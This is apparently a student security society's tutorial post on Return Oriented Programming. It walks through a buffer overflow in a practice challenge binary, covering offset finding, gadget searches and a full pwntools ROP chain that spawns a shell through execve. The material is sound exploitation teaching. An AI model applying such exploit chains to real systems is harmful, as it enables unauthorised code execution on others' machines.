 ```yaml
---
title: "Introduction to ROP Chain Attacks"
date: 2021-11-11T12:40:28+01:00
draft: false
author: "Ben Roxbee Cox"
description: "An introductory session modern binary exploitation techniques"
tags: ["pwn", "rop", "ret2libc"]
categories: ["Academic Year 2021-22"]
---
```


This week was the last of Ben's 4 week binary exploitation introductory series. It introduced the concept of Return Oriented Programming, demonstrated 2 methods of ROP exploitation on dynamic and statically linked binaries, and explained how some protections can be bypassed. The presentation slides can be downloaded [here](./presentation.pdf). We won't go into great detail into the theory of ROP, as it is covered in the presentation, but we will quickly recap on a high level.

Return Oriented Programming is a modern binary exploitation method designed to overcome the NX Stack compiler protection. It involves chaining together short series' of machine code instructions called *gadgets*. Using these gadgets, and a buffer overflow, we can redirect program flow and potentially gain code execution.  

## Demonstration 1: Classic ROP

The first demonstration covers what I call 'classic ROP'. It is the method of using ROP to achieve code execution without the use of external libraries. The first challenge binary is a statically linked.

```bash
> file challenge
challenge: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

It's not a very interesting program. It prints text to stdout, takes an input, prints something else, then exits.

```bash
> ./challenge
ROP me!
foobar
Bad luck. Exiting
```

Let's use GDB to find the offset to the return pointer, same as we did in the Stack Smashing exercises.

```py
pwndbg> cyclic 200 -n=8
pwndbg> r
pwndbg> x/xg $rsp
0x7fffffffd878: 0x6161616f61616161
pwndbg> cyclic -l 0x6161616f61616161 -n=8
108
```

We have an offset of 108, remember we can check this by sending a payload of 108 byte of junk data followed by a fake address such as `0xdeadbeef`. If 0xdeadbeef is in the RIP when the process SegFaults then we are correct.

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./challenge")
context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])

offset = 108

p.sendlineafter(b"ROP me!", flat({offset: pack(0xdeadbeef)}))

p.interactive()
```

Running the program and attaching to GDB in the same way as last week, we see that 0xdeadbeef is in the RIP.

![0xdeadbeef inside the RIP at SegFault](images/ss1.png)

To exploit this program, we need to build an exploit that essentially does `execve("/bin/sh", 0, 0)` like our shellcode would although we need to use gadgets rather than shellcode due to the fact that NX Stack is enabled on the binary. PIE is not enabled meaning we can search for gadgets and hard code their addresses, as their location will not change at runtime.

Remembering x86_64 calling conventions, we need the string `/bin/sh` in RDI, and 0 in RSI and RDX. We also need a gadget for RAX and a syscall.  Let's use Ropper to find the gadgets for this. 

```py
> ropper --file challenge --search "pop rdi"
[...]
0x000000000040106d: pop rdi; ret;
> ropper --file challenge --search "pop rsi"
[...]
0x0000000000401073: pop rsi; mov rdi, rsi; ret;
> ropper --file challenge --search "pop rdx"
[...]
0x0000000000401078: pop rdx; ret;
> ropper --file challenge --search "pop rax"
[...]
0x0000000000401017: pop rax; syscall;
```

There are convenient gadgets for all operations we want to do, so we can build a ROP chain using the ROP module of pwntools. We should use the RSI gadget first as it will clobber any data in RDI.

We also need the string `/bin/sh`. Thankfully it already exists in the binary. If this were not the case our ROP chain would need to write `/bin/sh` into memory before trying to execve.

```py
pwndbg> search /bin/sh
challenge       0x40201c 0x68732f6e69622f /* '/bin/sh' */
```

We can now finish our script.

```py
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge", checksec=False)
context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])

# 59 execve	const char *filename const char *const *argv const char *const *envp 	
offset = 108

pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
pop_rax_syscall = rop.find_gadget(["pop rax", "syscall"])[0]
pop_rsi_mov_rdi_rsi = 0x0000000000401073
binsh = next(elf.search(b"/bin/sh"))
pop_rdx = rop.find_gadget(["pop rdx", "ret"])[0]
pop_rax = 0x000000000040107a

rop.raw(pop_rsi_mov_rdi_rsi)
rop.raw(p64(0))
rop.raw(pop_rdi)
rop.raw(binsh)
rop.raw(pop_rdx)
rop.raw(p64(0))
rop.raw(pop_rax_syscall)
rop.raw(p64(59))

p.sendlineafter(b"ROP me!", flat({offset: rop.chain()}))

p.interactive()
```

The exploit works. This shows how we can use the native instructions present in a program to create our own malicious exploit code.

![Shell from Classic ROP](images/ss2.png)

